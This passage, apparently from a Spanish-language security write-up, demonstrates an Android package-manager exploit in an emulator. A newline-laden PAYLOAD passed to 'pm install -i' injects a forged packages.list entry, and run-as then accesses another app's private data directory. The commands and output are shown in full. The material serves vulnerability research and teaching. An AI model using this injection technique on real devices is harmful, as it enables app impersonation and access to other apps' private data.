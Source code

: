 ### Correr el Exploit

¡Al fin! Vamos a probar ese exploit, inicialmente tratando de suplantar a vulnerable0:

1. Subir dummyApp al emulador para poder usarla más adelante. En mi caso, en una shell de la compu (no la del emulador), ejecutamos el siguiente comando cambiando las rutas a las que correspondan al ambiente de pruebas:

   ```bash
   $ adb push ~/AndroidStudioProjects/dummyApp/app/release/app-release.apk /data/local/tmp
   /home/and3s/AndroidStudioProjects/dummyApp/app/release/app-release.apk: 1 file pushed, 0 skipped. 269.2 MB/s (4823022 bytes in 0.017s)
   $
   ```
&nbsp;
   Esto dejará nuestra app en `/data/local/tmp/` dentro del emulador.

2. Averigüemos qué usuario fue asignado a la aplicación com.example.vulnerable0:

   ```bash
   emulator64_x86_64_arm64:/ $ pm list packages -U | grep com.example.vulnerable0
   package:com.example.vulnerable0 uid:10147
   ```
&nbsp;
3. Preparemos la PAYLOAD que vamos a pasar a `pm` cuando instalemos dummyApp y que inyectará el archivo **packages.list** con la entrada _falsificada_. En este caso, es recomendable armar la PAYLOAD en un editor de textos y luego pegarla en la shell del emulador. Así se vería al final:

   ```bash
   emulator64_x86_64_arm64:/ $ PAYLOAD="@null
   > com.example.vulnerable0 10147 1 /data/data/com.example.vulnerable0 default:targetSdkVersion=28 none 0 0 1 @null"
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;
   Lo que hemos hecho es crear una variable de entorno llamada PAYLOAD, construida de la forma en que se explicó más arriba. Sin embargo, acá hay una diferencia: usamos el directorio _data_ (`/data/data/com.example.vulnerable0`) original de la aplicación _vulnerable0_, y no `/data/user/0`, simplemente para variar, ya que en la siguiente explotación usaremos ese directorio para suplantar una aplicación privilegiada.

4. Solo resta instalar una app cualquiera con `pm` y pasar `$PAYLOAD` como argumento a la opción `-i` y, como paquete, pasar `/data/local/tmp/app_release.apk` que contiene nuestra *dummyApp*.

   ```bash
   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/app-release.apk
   Success
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;
5. Uuuj, ¡no se quejó! Veamos si ahora sí podemos listar los archivos del directorio _data_ de vulnerable0 usando `run-as`:

   ```bash
   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 touch /data/data/com.example.vulnerable0/this
   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 ls -al /data/data/com.example.vulnerable0/
   total 52
   drwx------   5 u0_a147 u0_a147        4096 2025-01-09 16:17 .
   drwxrwx--x 183 system  system        12288 2025-01-09 16:13 ..
   drwxrws--x   2 u0_a147 u0_a147_cache  4096 2025-01-09 15:02 cache
   drwxrws--x   2 u0_a147 u0_a147_cache  4096 2025-01-09 15:02 code_cache
   drwxrwx--x   2 u0_a147 u0_a147        4096 2025-01-09 15:02 files
   -rw-rw-rw-   1 u0_a147 u0_a147           0 2025-01-09 16:17 this
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;